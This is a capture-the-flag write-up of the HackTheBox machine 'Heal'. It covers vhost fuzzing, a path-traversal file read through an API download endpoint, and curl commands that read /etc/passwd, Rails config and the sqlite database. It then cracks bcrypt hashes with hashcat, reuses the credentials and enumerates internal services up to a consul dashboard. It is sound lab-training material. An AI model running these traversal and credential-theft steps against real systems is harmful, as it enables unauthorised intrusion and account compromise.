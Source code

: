 ```yaml
---
title: Heal
categories:
  - HackTheBox
tags: [linux, passwordcracking, lfi, cve]
media_subpath: /images/hackthebox_heal/
image:
  path: https://labs.hackthebox.com/storage/avatars/dcd5ef09ab764228c64385374ac744c1.png
---
```


# Summay
Heal is a medium difficulty machine which was only running a web server and a SSH service. The web server was running a `ruby on rails` application which was vulnerable to an [`LFI (Local File Inclusion)`](/theory/misc/file-inclusion#local-file-inclusion-lfi) and allowed us to read the database file. The database file contained a password hash which we were able to crack and use to login into the application as an administrator. The administrator account had access to a `limesurvey` application which was running on another subdomain. We were able to use the same credentials to login into this application and get access to the `limesurvey` application, which was vulnerable to [`CVE-2021-12-09`](https://www.exploit-db.com/exploits/50573), abusing the exploit we got a foothold on the machine as `www-data`. Reading the configuration files for the `limesurvey` application, we found the credentials for the database and the SSH user `ron` had reused those credentials. Using the credentials for the SSH user, we were able to login into the machine as `ron` and escalate our privileges to `root` by abusing the `consul` service which was running locally on port `8500` of the machine.

## Nmap  

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFWKy4neTpMZp5wFROezpCVZeStDXH5gI5zP4XB9UarPr/qBNNViyJsTTIzQkCwYb2GwaKqDZ3s60sEZw362L0o=
|   256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILMCYbmj9e7GtvnDNH/PoXrtZbCxr49qUY8gUwHmvDKU
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - Web
### Vhost Fuzz
Fuzzing the application for subdomains we encountered the `api` subdomain

```bash
ffuf -u http://heal.htb -H 'Host: FUZZ.heal.htb' -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -ic -c 
```
> Command breakdown:
> - `-u`: URL to fuzz
> - `-H`: Header to send with the request
> - `-w`: Wordlist to use for fuzzing
> - `-ic`: Ignore comments on wordlist
> - `-c`: Colorize the output
> - `-fs`: Filter the results by file size
{: .prompt-info}


![NON](file-20250514225133360.png)

We see that we are getting constant results with file size `178`, so we can filter the results from `ffuf` with the parameter `-fs`

```bash
ffuf -u http://heal.htb -H 'Host: FUZZ.heal.htb' -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -ic -c -fs 178 
```

![NON](file-20250514225032259.png)

We add this subdomain to our `/etc/hosts` file

```bash
cat /etc/hosts
10.10.11.46 api.heal.htb heal.htb
```

The web server is very sensitive for handling multiple requests, so our directory fuzzing must be done with fewer threads then normal. Using the `dirsearch` tool on the `api.heal.htb` host, we can find a reference to a `/profile` and `/download` endpoint. Upon interacting with both endpoints, I started receiving an invalid token error:

```bash
curl 'http://api.heal.htb/download.php'
{"errors":"Invalid token"}%
```

Analyzing the requests our browser makes after we login on the `heal.htb` application, we can see it is sending an `authorization` header in the request

![NON](file-20250514233552283.png)

By sending this header on our `download` request, we started getting a different error

```bash
curl 'http://api.heal.htb/download' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ'

{"errors":"Error downloading file: no implicit conversion of nil into String"}
```

It is probably downloading a file, so we started to fuzz for parameter names and try for an `LFI` vulnerability. Since the webserver was very sensitive about fuzzing the application, I tried to manually enumerate the parameter of the `download` endpoint with words like `file`, `name`, `archive`, `filename`, and I've found that `filename` was the correct parameter.

> If the server wasn't so sensitive about multiple requests, we could have enumerated this endpoint parameter using the command `ffuf -u 'http://api.heal.htb/download?FUZZ=../../../../../../../etc/passwd' -H 'Authorization: Bearer \<TOKEN\> -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -ic -c -t 10 -fr "no implicit conversion" -x http://127.0.0.1:8080`
{: .prompt-info} 

```bash
curl 'http://api.heal.htb/download?filename=../../../../../../../../etc/passwd' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
```

With that, we can read some files of the server. 

To have a better idea of some important files inside the server, since we know it is running `ruby on rails`, we can deploy a simple web instance of this service and manually enumerate the file structure.

```bash
rails new testapp --api -d postgresql
```

```bash
cd testapp

ls
 .dockerignore   .gitattributes   .gitignore   .rubocop.yml    app   config      db           Gemfile        lib   public    󰂺 README.md   storage   tmp
 .git            .github          .kamal       .ruby-version   bin   config.ru   Dockerfile   Gemfile.lock   log   Rakefile   script      test      vendor
```

```bash
ls config

 application.rb   cable.yml   credentials.yml.enc   deploy.yml       environments   locales      puma.rb     recurring.yml   storage.yml
 boot.rb          cache.yml   database.yml          environment.rb   initializers   master.key   queue.yml   routes.rb
```

Reading the `database.yml` file, we can get some information about `sqlite` files present on the server

```bash
curl 'http://api.heal.htb/download?filename=../../config/database.yml' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo0fQ.J0NnCAdf82F0IukEy8HTIUHK49VpBnwHhtd4hBp-Y_w'

<SNIP>
development:
  <<: *default
  database: storage/development.sqlite3

test:
  <<: *default
  database: storage/test.sqlite3

production:
  <<: *default
  database: storage/development.sqlite3
<SNIP>
```

We can download the `development.sqlite3` file from the server and read it locally with `curl 'http://api.heal.htb/download?filename=../../storage/development.sqlite3' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' --output ~/HTB/Medium/Heal/development.sqlite3`

Enumerating the database, we can find a hash the we were able to crack using `hashcat`

```bash
sqlite3 development.sqlite3 '.tables'

ar_internal_metadata  token_blacklists
schema_migrations     users

sqlite3 development.sqlite3 'PRAGMA table_info("users");'

0|id|INTEGER|1||1
1|email|varchar|0||0
2|password_digest|varchar|0||0
3|created_at|datetime(6)|1||0
4|updated_at|datetime(6)|1||0
5|fullname|varchar|0||0
6|username|varchar|0||0
7|is_admin|boolean|0||0

sqlite3 development.sqlite3 'select username, password_digest from users;' | sed 's/|/:/' | tee -a users

ralph:$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
railoca:$2a$12$0xVKdMIa5mo.G8w669bs6uKkPbbo5ZFw9F7ldGk/.eHVAMI7/e8xu

hashcat -m 3200 users --username --show

ralph:$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369

```

With this password, we couldn't connect to ssh still, so we try connecting to the application instead and we are successfully logged with administrator privileges on the application

![NON](file-20250515002349947.png)

![NON](file-20250515002503423.png)

By looking at the survey tab, we are redirected to another subdomain

![NON](file-20250515012108944.png)

![NON](file-20250515012515676.png)


![NON](file-20250515012459876.png)

Ralph credentials were valid to login on admin dashboard

![NON](file-20250515013310409.png)

![NON](file-20250515014352897.png)

![NON](file-20250515014839844.png)

At `config.php` file at `/var/www/limesurvey/application/config`, we found some more credentials 

![NON](file-20250515015112930.png)

Trying the password for the ron user, we can see that he reused the password for the database

![NON](file-20250515015234113.png)

To get a more stable shell then `nc`, we established an `SSH`  connection.

![NON](file-20250515015341748.png)

With a simple bash script, we can curl every internal service to see which ones are an `http(s)` server

```bash
ss -lntp | awk '{print $4}' | while IFS= read host; do echo "curling host: $host"; curl -s "$host" |head -n1 ;done
```

![NON](file-20250515020026416.png)

Accessing the forwarded port, we have now access to a `consul` dashboard

![NON](file-20250515020149717.png)

![NON](file-20250515023935052.png)

